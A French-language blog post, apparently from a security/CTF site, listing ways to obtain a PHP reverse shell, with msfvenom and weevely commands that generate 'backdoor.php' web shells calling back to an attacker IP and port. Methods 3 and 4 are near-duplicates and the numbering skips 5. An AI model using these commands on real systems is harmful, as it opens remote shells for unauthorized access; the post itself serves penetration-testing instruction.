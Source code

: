 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans votre routeur si la connexion à la machine sera distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "backdoor.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/backdoor.php
  </code></pre> <br/>

---------------------------------------------

#### Méthode 3: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLog_hhhhhhhh"
      weevely generate noLog_hhhhhhhh /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLogMe"
      weevely generate noLogMe /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 6: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans le fichier téléchargé notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 7: codez vous-même
  Nous reviendrons plus tard sur la logique de codage de votre propre reverse shell et le pratiquerons en C, python et PHP. Vous devinez donc que vous aurez besoin de savoir programmer en C ou en python ou en PHP en plus d'avoir des notions de base en réseau informatique

---------------------------------------------
